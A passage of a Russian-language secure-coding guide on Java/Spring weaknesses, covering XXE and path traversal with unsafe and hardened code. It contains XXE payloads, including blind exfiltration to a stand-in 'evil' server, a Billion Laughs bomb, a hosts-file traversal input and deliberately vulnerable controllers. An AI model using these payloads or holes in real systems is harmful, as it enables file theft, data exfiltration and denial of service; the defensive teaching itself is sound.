# Примеры эксплуатации и устранения CWE в Java

## Запуск:
```shell
```

Данное руководство поможет вам понять причины появления слабостей, их возможное влияние на приложение, а также способы их предотвращения в web – приложениях, разрабатываемых на языке Java с использованием Spring.

<!-- TOC -->
* [Примеры эксплуатации и устранения CWE в Java](#примеры-эксплуатации-и-устранения-cwe-в-java)
  * [Запуск:](#запуск)
  * [1.	CWE-611: Improper Restriction of XML External Entity Reference](#1-cwe-611-improper-restriction-of-xml-external-entity-reference)
    * [1.1. Описание](#11-описание)
      * [1.1.1. XInclude](#111-xinclude)
    * [1.2. Защитные меры](#12-защитные-меры)
    * [1.3. Примеры](#13-примеры)
      * [*Пример 1. Небезопасный анмаршаллинг объекта из XML документа*](#пример-1-небезопасный-анмаршаллинг-объекта-из-xml-документа)
      * [*Пример 2. Безопасный анмаршаллинг объекта из XML документа*](#пример-2-безопасный-анмаршаллинг-объекта-из-xml-документа)
      * [*Пример 3. Безопасный парсинг при помощи javax.xml.parsers.DocumentBuilder*](#пример-3-безопасный-парсинг-при-помощи-javaxxmlparsersdocumentbuilder)
      * [*Пример 4. Безопасный парсинг при помощи org.dom4j.io.SAXReader*](#пример-4-безопасный-парсинг-при-помощи-orgdom4jiosaxreader)
  * [2.	CWE-73: External Control of File Name or Path](#2-cwe-73-external-control-of-file-name-or-path)
    * [2.1. Описание](#21-описание)
      * ["Null Byte Injection" или "Null Byte Poisoning"](#null-byte-injection-или-null-byte-poisoning)
    * [2.2. Защитные меры](#22-защитные-меры)
    * [2.3. Примеры](#23-примеры)
      * [*Пример 1. Небезопасное составление имени файла*](#пример-1-небезопасное-составление-имени-файла)
      * [*Пример 2. Небезопасное составление имени файла*](#пример-2-небезопасное-составление-имени-файла)
      * [*Пример 3. Небезопасное составление имени файла*](#пример-3-небезопасное-составление-имени-файла)
      * [*Пример 4. Безопасное составление имени файла: нормализация и проверка результирующей директории*](#пример-4-безопасное-составление-имени-файла-нормализация-и-проверка-результирующей-директории)
      * [*Пример 5. Безопасное составление имени файла: нормализация и проверка результирующей директории*](#пример-5-безопасное-составление-имени-файла-нормализация-и-проверка-результирующей-директории)
    * [*Пример 6. Безопасное составление имени файла: проверка регулярным выражением и очистка от «..»*](#пример-6-безопасное-составление-имени-файла-проверка-регулярным-выражением-и-очистка-от-)
  * [3. CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](#3-cwe-89-improper-neutralization-of-special-elements-used-in-an-sql-command-sql-injection)
    * [3.1. Описание](#31-описание)
    * [3.2. Защитные меры](#32-защитные-меры)
      * [3.2.1. Использование Prepared Statements](#321-использование-prepared-statements)
      * [*Пример небезопасного использования класса Statement*](#пример-небезопасного-использования-класса-statement)
      * [*Пример безопасного использования класса PreparedStatement*](#пример-безопасного-использования-класса-preparedstatement)
      * [3.2.2. Использование хранимых процедур](#322-использование-хранимых-процедур)
      * [3.2.3. Проверка ввода по белому списку](#323-проверка-ввода-по-белому-списку)
      * [3.2.4. Экранирование всех вводимых пользователем данных](#324-экранирование-всех-вводимых-пользователем-данных)
      * [*Пример использования ESAPI:*](#пример-использования-esapi)
    * [3.3. Java Persistence API и Hibernate. HQL injection и JPQL injection](#33-java-persistence-api-и-hibernate-hql-injection-и-jpql-injection)
    * [3.4. Примеры](#34-примеры)
      * [*Пример 1. Небезопасное использование Hibernate Query Language (HQL)*](#пример-1-небезопасное-использование-hibernate-query-language-hql)
      * [*Пример 2. Небезопасное использование HQL*](#пример-2-небезопасное-использование-hql)
      * [*Пример 3. Небезопасное использование HQL*](#пример-3-небезопасное-использование-hql)
      * [*Пример 4. Безопасное использование HQL*](#пример-4-безопасное-использование-hql)
      * [*Пример 5. Безопасное использование HQL]*](#пример-5-безопасное-использование-hql)
      * [*Пример 6. Безопасное использование Java Persistence Query Language (JPQL)*](#пример-6-безопасное-использование-java-persistence-query-language-jpql)
      * [*Пример 7. Безопасное использование Java Persistence Query Language (JPQL)*](#пример-7-безопасное-использование-java-persistence-query-language-jpql)
      * [*Пример 8. Безопасное использование Java Persistence Query Language (JPQL)*](#пример-8-безопасное-использование-java-persistence-query-language-jpql)
      * [*Пример 9. Безопасное использование JPA Criteria API*](#пример-9-безопасное-использование-jpa-criteria-api)
      * [*Пример 10. Небезопасное использование MyBatis*](#пример-10-небезопасное-использование-mybatis)
      * [*Пример 11. Безопасное использование MyBatis*](#пример-11-безопасное-использование-mybatis)
      * [*Пример 12. Небезопасное использование JPQL*](#пример-12-небезопасное-использование-jpql)
      * [*Пример 13. Корректное использование – белый список*](#пример-13-корректное-использование--белый-список)
    * [3.5. В заключении](#35-в-заключении)
    * [3.6. Дополнительная литература](#36-дополнительная-литература)
  * [4. CWE-94: Improper Control of Generation of Code ('Code Injection')](#4-cwe-94-improper-control-of-generation-of-code-code-injection)
    * [4.1. Class.forName](#41-classforname)
    * [4.2. logger.*](#42-logger)
      * [4.2.1. Условия для появления уязвимости:](#421-условия-для-появления-уязвимости)
    * [4.3. Защитные меры](#43-защитные-меры)
    * [4.4. Дополнительная литература](#44-дополнительная-литература)
  * [5.	CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')](#5-cwe-77-improper-neutralization-of-special-elements-used-in-a-command-command-injection)
    * [5.1. Описание](#51-описание)
    * [5.2. Потенциальное воздействие](#52-потенциальное-воздействие)
    * [5.3. Защитные меры](#53-защитные-меры)
      * [5.3.1. Стандартные библиотеки и функции Java](#531-стандартные-библиотеки-и-функции-java)
      * [5.3.2. ProcessBuilder](#532-processbuilder)
      * [*Пример 1. Некорректное использование*](#пример-1-некорректное-использование)
      * [*Пример 2. Корректное использование*](#пример-2-корректное-использование)
      * [*Пример 3. Корректное использование*](#пример-3-корректное-использование)
      * [5.3.3. Input validation](#533-input-validation)
    * [5.4.  В заключении](#54-в-заключении)
<!-- TOC -->

## 1.	CWE-611: Improper Restriction of XML External Entity Reference



### 1.1. Описание
Атака типа внедрение XML eXternal Entity (XXE) находится на 4 месте в топ-10 OWASP и представляет собой тип атаки на приложение, которое анализирует XML.
Эта атака происходит, когда ненадежный XML, содержащий ссылку на внешний объект, обрабатывается плохо настроенным синтаксическим анализатором XML.
Атака может привести к раскрытию конфиденциальных данных, отказу в обслуживании, подделке запросов на стороне сервера (SSRF), сканированию портов с точки зрения машины, на которой расположен анализатор, и другим системным воздействиям.
Подробнее о типах атак можно прочитать на https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/xxe-xee-xml-external-entity.md
Типы сценариев XXE (различные типы сценариев, с которыми вы можете столкнуться):
- XXE на основе ответа - когда внедренный запрос выдает данные в ответ.
- XXE на основе ошибок - когда нет ответа от объектов XML, но мы можем просмотреть ответ, вызвав ошибки.
- Слепой XXE - когда нет ни ошибки, ни ответа, но XML анализируется на стороне сервера.

Пример: программа парсит XML – файл и возвращает результат пользователю. Создадим XML и добавим туда внешнюю сущность <!ENTITY xxe SYSTEM "file:///c:/temp/secrets.txt" > (URI, указывающий на локальный файл):


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
        <!ENTITY xxe SYSTEM "file:///c:/temp/secrets.txt" >
                ]>
<user id="ec77d4a3-156a-4464-bc9e-ed9835661b75">
    <username>&xxe;</username>
    <password>7815696ecbf1c96e6894b779456d330e</password>
    <group>Users</group>
    <email>zx</email>
</user>
```

При парсинге XML с помощью популярных Java – парсеров, содержимое (строка «XXE injection example») файла
c:/temp/secrets.txt подставляется внутрь тэга username:



XML – парсер может получить доступ к любому файлу на сервере, если к этому файлу имеет доступ учетная запись, от имени которой запущено приложение.
Пример использования внешней сущности для слепого извлечения файлов путем перенаправления вывода на контролируемый сервер:
XML – документ:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % pe SYSTEM "http://localhost:7171/evil/xxe-file"> %pe; %param1; ]>
<foo>&external;</foo>
```
Содержимое файла xxe_file:
```xml
<!ENTITY % payload SYSTEM "file:///c:/temp/secrets.txt">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://localhost:7171/evil/log-data?data=%payload;'>">
```
Лог на сервере злоумышленника:



Самый безопасный способ предотвратить появление XXE - это всегда полностью отключать поддержку DTD и внешних сущностей.
Отключение поддержки DTD и внешних сущностей также обеспечивает защиту парсера от атак типа "отказ в обслуживании" (DOS), таких как Billion Laughs:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ELEMENT lolz (#PCDATA)>
        <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
        ]>
<lolz>&lol9;</lolz>
```
\* некоторые современные XML – парсеры содержат защиту от данного вида атаки по умолчанию. Например, в org.w3c.dom.Document ограничение на количество сущностей – 64 000. Но даже с таким ограничением возможно сформировать XML документ размером более 40 МБ, чего достаточно для проведения атаки типа DDoS в случае одновременной отправки большого количества запросов:



#### 1.1.1. XInclude
Некоторые приложения получают данные, переданные клиентом, вставляют их на стороне сервера в XML-документ, а затем разбирают этот документ. Примером может служить ситуация, когда переданные клиентом данные помещаются в внутренний SOAP-запрос, который затем обрабатывается внутренним SOAP-сервисом.
В этой ситуации вы не сможете провести классическую XXE-атаку, потому что вы не контролируете весь XML-документ и поэтому не можете определить или изменить элемент DOCTYPE. Однако вместо этого вы можете использовать XInclude. XInclude - это часть спецификации XML, которая позволяет создавать XML-документ из поддокументов. Вы можете поместить XInclude в любое значение данных в XML-документе, поэтому атака может быть выполнена в ситуациях, когда вы контролируете только один элемент данных, помещенный в XML-документ на стороне сервера.
Чтобы выполнить атаку XInclude, нужно обратиться к пространству имен XInclude и указать путь к файлу, который вы хотите включить. Например:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="jar:file:///c:/temp/secrets.zip!/secrets.txt"/></foo>
```

### 1.2. Защитные меры
Единственным надежным способом предотвращения XXE является отключение поддержки DTD и внешних сущностей при обработке XML документа.
Для классов DocumentBuilderFactory, SAXParserFactory, XMLInputFactory (StAX parser) и других, отключение поддержки DTD и внешних сущностей осуществляется с помощью метода setFeature, например:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// This is the PRIMARY defense. If DTDs (doctypes) are disallowed, almost all
// XML entity attacks are prevented
// Xerces 2 only - http://xerces.apache.org/xerces2-j/features.html#disallow-doctype-decl
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// and these as well, per Timothy Morgan's 2014 paper: "XML Schema, DTD, and Entity Attacks"
dbf.setXIncludeAware(false);
```
```java
SAXParserFactory factory = SAXParserFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
```java
XMLInputFactory xmlInputFactory = XMLInputFactory.newInstance();
xmlInputFactory.setProperty(""javax.xml.stream.isSupportingExternalEntities", false)
```
Данному виду атаки подвержены многие классы Java, а также некоторые версии Spring OXM и Spring MVC:
-	JAXP DocumentBuilderFactory, SAXParserFactory and DOM4J
-	XMLInputFactory (a StAX parser)
-	Oracle DOM Parser
-	TransformerFactory
-	Validator
-	SchemaFactory
-	SAXTransformerFactory
-	XMLReader
-	SAXReader
-	SAXBuilder
-	No-op EntityResolver
-	JAXB Unmarshaller
-	XPathExpression
-	java.beans.XMLDecoder

Для снижения вероятности реализации CWE-611 следуйте следующим рекомендациям:
1.	Старайтесь всегда полностью отключать поддержку DTD, внешних сущностей и XInclude;
2.	Не доверяйте XML, полученным из внешних источников и данным, вводимым пользователем;
3.	Проверяйте вводимые пользователем данные. Отклоняйте данные, /фильтруйте/избегайте, если возможно.

Примеры корректного отключения поддержки DTD и внешних сущностей для различных XML парсеров представлены на странице https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html

### 1.3. Примеры
#### *Пример 1. Небезопасный анмаршаллинг объекта из XML документа*

```java
@PostMapping(value = "unmarshall-full-unsafe",
        consumes = MediaType.APPLICATION_XML_VALUE, produces = MediaType.TEXT_PLAIN_VALUE)
@ResponseStatus(HttpStatus.CREATED)
public void xxeFileUnmarshallUnsafe(@RequestBody String xml, HttpServletResponse response) throws JAXBException, IOException {
    // Необходимо только для демонстрации <!ENTITY xxe SYSTEM "file:///c:/windows/system32/drivers/etc/hosts" >
    // с сущностями типа "lol" работает по умолчанию
    System.setProperty("javax.xml.accessExternalDTD", "all");

    User user = JAXB.unmarshal(new StringReader(xml), User.class);
    response.getWriter().write(user.toString());
}
```



#### *Пример 2. Безопасный анмаршаллинг объекта из XML документа*
В данном примере отключена поддержка DTD до начала процесса парсинга XML. При попытке эксплуатации XXE injection, на сервере выбрасывается исключение org.xml.sax.SAXParseException: DOCTYPE is disallowed when the feature "http://apache.org/xml/features/disallow-doctype-decl" set to true. А пользователю – ошибка 500 Internal Server Error.

```java
@PostMapping(value = "unmarshall-safe",
        consumes = MediaType.APPLICATION_XML_VALUE, produces = MediaType.TEXT_PLAIN_VALUE)
@ResponseStatus(HttpStatus.CREATED)
public void unmarshallSafe(@RequestBody String xml, HttpServletResponse response) throws IOException, SAXException, ParserConfigurationException {
    // Because javax.xml.bind.Unmarshaller parses XML but does not support any flags for disabling XXE, you must
    // parse the untrusted XML through a configurable secure parser first, generate a source object as a result,
    // and pass the source object to the Unmarshaller. For example:

    SAXParserFactory spf = SAXParserFactory.newInstance();

    //Option 1: This is the PRIMARY defense against XXE
    spf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    spf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
    spf.setXIncludeAware(false);

    //Do unmarshall operation
    Source xmlSource = new SAXSource(spf.newSAXParser().getXMLReader(),
            new InputSource(new StringReader(xml)));
    User user = JAXB.unmarshal(xmlSource, User.class);
    response.getWriter().write(user.toString());
}
```

#### *Пример 3. Безопасный парсинг при помощи javax.xml.parsers.DocumentBuilder*

```java
@PostMapping(value = "domparse-safe",
        consumes = MediaType.APPLICATION_XML_VALUE, produces = MediaType.TEXT_PLAIN_VALUE)
@ResponseStatus(HttpStatus.CREATED)
public void domParseSafe(@RequestBody String xml, HttpServletResponse response) throws ParserConfigurationException, IOException, SAXException {
    Users users = new Users();
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

    // This is the PRIMARY defense. If DTDs (doctypes) are disallowed, almost all
    // XML entity attacks are prevented
    // Xerces 2 only - http://xerces.apache.org/xerces2-j/features.html#disallow-doctype-decl
    dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    // and these as well, per Timothy Morgan's 2014 paper: "XML Schema, DTD, and Entity Attacks"
    dbf.setXIncludeAware(false);

    DocumentBuilder builder = dbf.newDocumentBuilder();
    Document document = builder.parse(new InputSource(new StringReader(xml)));
    document.getDocumentElement().normalize();
    NodeList nodeList = document.getElementsByTagName("user");
    for (int i = 0; i < nodeList.getLength(); i++) {
        Node node = nodeList.item(i);
        if (node.getNodeType() == Node.ELEMENT_NODE) {
            Element element = (Element) node;
            User user = new User(
                    element.getElementsByTagName("username").item(0).getTextContent(),
                    element.getElementsByTagName("password").item(0).getTextContent(),
                    element.getElementsByTagName("group").item(0).getTextContent(),
                    UUID.fromString(element.getAttribute("id")),
                    element.getElementsByTagName("email").item(0).getTextContent());
            users.addUser(user);
        }
    }
    response.getWriter().write(users.toString());
}
```

#### *Пример 4. Безопасный парсинг при помощи org.dom4j.io.SAXReader*

```java
@PostMapping(value = "saxparse-safe",
        consumes = MediaType.APPLICATION_XML_VALUE, produces = MediaType.TEXT_PLAIN_VALUE)
@ResponseStatus(HttpStatus.CREATED)
public void saxParseSafe(@RequestBody String xml, HttpServletResponse response) throws ParserConfigurationException, IOException, SAXException, DocumentException {
    // To protect a Java org.dom4j.io.SAXReader from an XXE attack, do this:
    SAXReader saxReader = new SAXReader();
    saxReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    saxReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    saxReader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);

    org.dom4j.Document document = saxReader.read(new InputSource(new StringReader(xml)));
    response.getWriter().write(document.asXML());
}
```

***

## 2.	CWE-73: External Control of File Name or Path
### 2.1. Описание


 
Данная слабость возникает в случае, если приложение позволяет пользовательскому вводу контролировать или влиять на пути или имена файлов, используемые в операциях с файловой системой. Это может позволить злоумышленнику получить доступ или изменить системные файлы или другие файлы, критичные для приложения.
Одним из примеров атаки с использованием данной слабости является Path Traversal.
Как правило, такие атаки предполагают использование dot-dot-slash (('..\' или '../')) последовательностей (relative path traversal) или абсолютных путей вместо относительных (absolute path traversal). Для защиты необходимо применять различные способы валидации данных, получаемых от пользователя. Как правило, path traversal атаки, известные также как directory traversal, позволяют злоумышленнику работать с файлами и папками, к которым в обычном случае у него не должно быть доступа.
Например, возьмем контроллер для скачивания изображений. Путь к файлу формируется при помощи конкатенации "c:\temp\" и имени файла, поступившего из GET-запроса:

```java
static final String BASE_DIRECTORY = "c:\\temp\\";

@GetMapping("download-image-unsafe")
public void downloadImageUnsafe(@RequestParam("filename") String fileName, HttpServletResponse response) throws IOException {

    File f = new File(BASE_DIRECTORY + fileName);

    if (f.exists() && !f.isDirectory()) {

        MediaType mediaType = MediaTypeFactory.getMediaType(fileName)
                .orElse(MediaType.APPLICATION_OCTET_STREAM);

        response.setContentType(mediaType.toString());
        response.setHeader("Content-Disposition", "attachment; filename=" + f.getName());

        response.getOutputStream()
                .write(("Resolved file name: " + f + "\n" + "Canonical pathname: "
                        + f.getCanonicalPath() + "\n\n").getBytes());
        response.getOutputStream().write(Files.readAllBytes(f.toPath()));
    } else {
        response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        response.getWriter().write("File doesn't exist or is not a file.");
    }
}
```

Передав в качестве параметра `filename=/../windows/system32/drivers/etc/hosts` мы смогли выйти за пределы каталога `c:\temp\`, поднявшись сначала на уровень выше, а потом попали в каталог `C:\Windows\System32\drivers\etc\` и скачали файл `hosts`:



Влияние от атаки можно значительно уменьшить, если после пользовательского ввода добавлять некоторый текст, например:

```java
File picture = new File(BASE_DIRECTORY + fileName + ".jpeg");
```

Или проверив имя переданного в GET-запросе параметра:

```java
if (fileName.endsWith(".jpg")) {
    File picture = new File(fileName);
}
```

В таком случае за пределы каталога все равно можно выйти, но прочитать получится только файл с расширением jpg.

#### "Null Byte Injection" или "Null Byte Poisoning"

> Важно:
Данный способ «смягчения» последствий крайне не рекомендуется использовать в качестве основной защиты от атаки типа path traversal, т.к. в старых версиях Java возможна инъекция Null Byte:
Инъекция нулевого байта - это активная техника эксплуатации, используемая для обхода фильтров проверки целостности веб-инфраструктуры путем добавления в пользовательские данные символов нулевого байта, закодированных в URL (т.е. %00 или 0x00 в шестнадцатеричном формате). Нулевой байт представляет собой точку окончания строки или символ-разделитель, который означает немедленное прекращение обработки строки. Байты, следующие за разделителем, игнорируются. Такая инъекция может изменить логику работы приложения и позволить злоумышленнику получить несанкционированный доступ к системным файлам.
Например, проверку расширения файла можно обойти, используя ввод вида secret.txt%00.jpg
Инъекция нулевого байта в именах файлов была исправлена в Java начиная с версии jdk 7u40 b28
Подробнее:
>
> http://projects.webappsec.org/w/page/13246949/Null-Byte-Injection
> 
> https://portswigger.net/blog/null-byte-attacks-are-alive-and-well
> 
> https://bugs.java.com/bugdatabase/view_bug.do?bug_id=8014846

### 2.2. Защитные меры
Для предотвращения CWE-73 необходимо выполнять следующие рекомендации:
1. Избегайте использования пользовательского ввода непосредственно в функциях, работающих с файлами;
2. Выполняйте очистку и фильтрацию пользовательского ввода;
3. Проверяйте результирующий путь перед выполнением операций чтения и записи;
4. Для загрузки ресурсов используйте загрузчик класса, который может загружать файлы только из Classpath, например, `Class.getClassLoader().getResource()`, `Class.getResource()`, или `org.springframework.core.io.ResourceLoader`.

### 2.3. Примеры
#### *Пример 1. Небезопасное составление имени файла*
Путь к файлу формируется при помощи конкатенации `c:\temp\` и имени файла, поступившего из GET-запроса.

```java
static final String BASE_DIRECTORY = "c:\\temp\\";

@GetMapping("download-image-unsafe")
public void downloadImageUnsafe(@RequestParam("filename") String fileName, HttpServletResponse response) throws IOException {

    File f = new File(BASE_DIRECTORY + fileName);

    if (f.exists() && !f.isDirectory()) {

        MediaType mediaType = MediaTypeFactory.getMediaType(fileName)
                .orElse(MediaType.APPLICATION_OCTET_STREAM);

        response.setContentType(mediaType.toString());
        response.setHeader("Content-Disposition", "attachment; filename=" + f.getName());

        response.getOutputStream()
                .write(("Resolved file name: " + f + "\n" + "Canonical pathname: "
                        + f.getCanonicalPath() + "\n\n").getBytes());
